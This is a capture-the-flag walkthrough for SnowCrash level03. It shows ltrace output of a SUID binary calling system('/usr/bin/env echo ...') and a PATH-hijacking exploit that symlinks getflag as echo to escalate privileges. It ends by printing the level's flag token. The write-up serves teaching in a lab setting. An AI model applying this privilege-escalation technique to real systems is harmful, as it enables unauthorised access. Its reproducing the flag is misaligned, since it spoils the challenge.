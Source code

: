 # SnowCrash Level03 Walkthrough

This walkthrough explains how we retrieved the flag for `level03` in the SnowCrash wargame.

---

## Step 1: Exploring the Environment

After logging into `level03`, we run `ls` and find the following:

```bash
level03@SnowCrash:~$ ls
level03
```

We check file permissions with `ls -la`:

```bash
level03@SnowCrash:~$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

This file is owned by `flag03` and has the SUID bit set, meaning it runs with the permissions of `flag03`.

---

## Step 2: Running the Binary

We execute the binary:

```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

---

## Step 3: Tracing with `ltrace`

We run `ltrace` to see the function calls:

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                          = 2003
geteuid()                                          = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
<unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                             = 0
+++ exited (status 0) +++
```

We observe the binary runs:

```bash
system("/usr/bin/env echo Exploit me")
```

---

## Step 4: Exploiting the Binary

We can exploit this by manipulating the `PATH` environment variable. We replace `echo` with a symbolic link to `getflag`:

```bash
ln -s /bin/getflag /tmp/echo
export PATH=/tmp:$PATH
```

Then run the binary again:

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

## ✅ Summary

- The binary uses `system("/usr/bin/env echo ...")`, which depends on the `PATH`
- By placing our own `echo` in the `PATH`, we execute `getflag` instead
- Successfully escalated privileges and retrieved the flag

**Flag:** `qi0maab88jeaj46qoumi7maus`
